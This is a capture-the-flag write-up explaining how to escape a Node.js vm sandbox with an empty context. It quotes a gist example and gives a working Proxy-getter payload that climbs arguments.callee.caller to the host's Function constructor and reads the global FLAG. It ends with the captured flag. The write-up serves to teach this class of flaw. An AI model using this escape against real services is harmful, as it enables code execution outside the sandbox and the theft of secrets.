


In this challenge we use this https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af.

This is the vm code:
```js
// vm with empty context
data = vm.runInNewContext(
    code,                                   // Executes user code in new context
    vm.createContext(Object.create(null)),  // Creates an empty context
    { timeout: 200 }                        // Maximum execution time
);
```

The problem we facing is that we are in an empty context, so when trying to get `FLAG`, we gets nothing, because it doesn't recognize it.



Then, we saw this example in the gist I supplied before:
```js
////////
// Even *reading* fields from returned data can be exploited, since
// the call stack when the proxy function is executed contains frames
// with references back to the real function:

const code4 = `new Proxy({}, {
  get: function(me, key) { (arguments.callee.caller.constructor('console.log(sauce)'))() }
})`;

data = vm.runInContext(code4, vm.createContext(Object.create(null)));
// The following executes the getter proxy function, and
// prints out 'laser' despite no console.log immediately present.
if (data['some_key']) {

}
```

This is a trap that gets triggered when `data` is being accessed, the object we set the trap to.

In our case, right after the `vm` it executes these lines:
```js
if (data !== undefined) {
    if (data['result'] !== undefined) {
        result = {result: data['result']};
    } else {
        result = {result: data};
    }
} 
```
Which simply can trigger the trap!


Then, after we triggered the trap, **out of the vm**, we can climb up to the global scope and get access to all of the variables, in the example he access `sauce`, but we're going to access `FLAG`.

So, this will be our payload:
```js
new Proxy({}, {
  get: function(me, key) {
    // Try to get the caller
    const cc = arguments.callee.caller;
    if (cc != null) {
      // Execute the escape
      return (cc.constructor.constructor('return FLAG')());
    }
    return 'cc is null';  // Safe value to avoid Pug rendering errors
  }
});
```



**Flag:** **_`NodeJS_vm_1s_n0t_a_s3cur1ty_m0dul3!!!`_**
